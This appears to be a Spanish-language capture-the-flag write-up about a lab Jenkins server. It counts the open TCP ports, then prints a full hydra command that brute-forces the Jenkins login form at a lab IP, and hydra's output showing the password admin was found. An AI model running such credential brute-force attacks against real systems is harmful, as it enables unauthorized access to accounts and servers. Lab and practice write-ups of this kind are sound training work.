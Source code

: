 How many ports are open? (TCP only) **3**

Sabemos entonces que aparte del puerto 80, hay otro puerto sirviendo contenido y cargamos la pagina

![Alt text](image.png)

Se nos pide vulnerar el user/password. Sabemos que el usuario por defecto en Jenkins es admin por lo que intentaremos romper la contraseña con ese usuario mediante ataque por diccionario usnado hydra.

Primero, necesitamos algunos datos antes de proseguir

1. **url:** http://10.10.202.154
2. **Puerto:** 8080
3. **Pagina que resuelve login**: /j_acegi_security_check
4. **Parametros que se envian al login:** j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in
5. **Mensaje de error:** Invalid username or password
6. **Wordlist para realizar el ataque:** En rigor podriamos usar rockyou.txt (14.344.391 lineas), pero entendiendo que es un caso de prueba cercano a la realidad pero no real, vamos a usar una lista corta (fastrack.txt, que son 222 lineas), si no estaremos un año intentando romper la clave.

Con eso, ya podemos construir nuestro ataque.

```
hydra -l admin -P /usr/share/wordlists/fasttrack.txt 10.10.202.154 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password" -V -F
```
```
[8080][http-post-form] host: 10.10.202.154   login: admin   password: admin
[STATUS] attack finished for 10.10.202.154 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-09-03 15:19:21
```
